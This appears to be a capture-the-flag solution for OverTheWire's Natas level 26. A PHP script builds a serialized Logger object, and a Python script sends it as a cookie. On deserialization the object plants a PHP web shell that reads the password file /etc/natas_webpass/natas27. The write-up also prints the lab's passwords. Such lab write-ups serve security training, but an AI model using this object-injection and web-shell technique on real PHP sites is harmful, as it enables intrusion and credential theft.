 ## Pwn
```php
<?php
class Logger
{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file)
    {
        // initialise variables
        $this->initMsg = "#--session started--#\n";
        $this->exitMsg = "<?php echo file_get_contents(\"/etc/natas_webpass/natas27\"); ?>";
        $this->logFile = "/var/www/natas/natas26/img/sss.txt";
    }
}
$logger = new Logger("");
$arr = array();
$arr[] = $logger;
echo base64_encode(serialize($arr));
```

```python
import requests
from requests.auth import HTTPBasicAuth

username = "natas26"
password = "8A506rfIAXbKKk68yJeuTuRq4UfcK70k"
authentication = HTTPBasicAuth(username, password)

def mal_cookie():
    mal_serialized = """YToxOntpOjA7Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNDoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvc3NzLnBocCI7czoxNToiAExvZ2dlcgBpbml0TXNnIjtzOjIyOiIjLS1zZXNzaW9uIHN0YXJ0ZWQtLSMKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjI6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoIi9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Iik7ID8+Ijt9fQ=="""
    mal_cookie = {
        "drawing" : mal_serialized,
    }
    return mal_cookie

def main():
    url = "http://natas26.natas.labs.overthewire.org/"
    response = requests.get(url, auth=authentication, cookies=mal_cookie())

main()
```
Accessing http://natas26.natas.labs.overthewire.org/img/sss.php will get PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3

---
# Hint

---